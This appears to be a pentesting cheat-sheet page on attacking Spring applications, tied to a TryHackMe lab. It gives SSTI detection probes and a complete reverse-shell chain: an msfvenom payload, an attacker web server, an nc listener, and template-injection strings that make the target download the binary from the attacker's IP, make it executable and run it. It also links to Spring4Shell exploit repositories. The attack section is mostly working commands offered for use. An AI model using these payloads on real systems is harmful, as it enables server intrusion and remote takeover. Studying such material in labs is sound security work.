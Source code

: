 ```yaml
---
title: Spring Pentesting
description: Spring is an application framework and inversion of control container for the Java platform.
tags:
    - Reverse Shell
    - SSTI
    - Web
refs:
    - https://tryhackme.com/room/spring4shell
date: 2023-01-23
draft: false
---
```


## Detection

- If we get the **Whitelabel Error Page**, the website uses Spring Boot.

<br />

## Reverse Shell with SSTI

### SSTI Discovery

If there is an input form, such as a search form, or URL parameter which the parameter is reflected in the website, you may be able to find the vulnerability to the server-side template injection.

Try them:

```java
2*2
#{2*2}
*{2*2}
```

Then you can also check more about that.

```java
{"dfd".replace("d", "x")}
#{"dfd".replace("d", "x")}
*{"dfd".replace("d", "x")}

// ---------------------------------------

// the desired output of the above...
"xfx"
```

### Reverse Shell

First generate the payload of the reverse shell which will be downloaded from the website.

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f elf > r.elf
```

Start a local web server to allow the website to download the payload named “r.elf”

```sh
python3 -m http.server 8000
```

In another terminal, open listener for getting the reverse shell.

```sh
nc -lvnp <local-port>
```

In the target website,

```java
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://<local-ip>:8000/r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}
```

Finally we should see to get the shell.

<br />

## Spring4Shell (CVE-2022-22965)

Spring4Shell is a vulnerabilitiy to remote code execution in the Spring Framework. It affects a component in Spring Core which is the heart of the framework.

It is identified as a bypass of the patch for CVE-2010-1622.

### Exploits

Vary exploits are available in GitHub repositories.

- [https://github.com/BobTheShoplifter/Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-POC)
- [https://github.com/Leovalcante/spring4shell](https://github.com/Leovalcante/spring4shell)
- [https://github.com/me2nuk/CVE-2022-22965](https://github.com/me2nuk/CVE-2022-22965)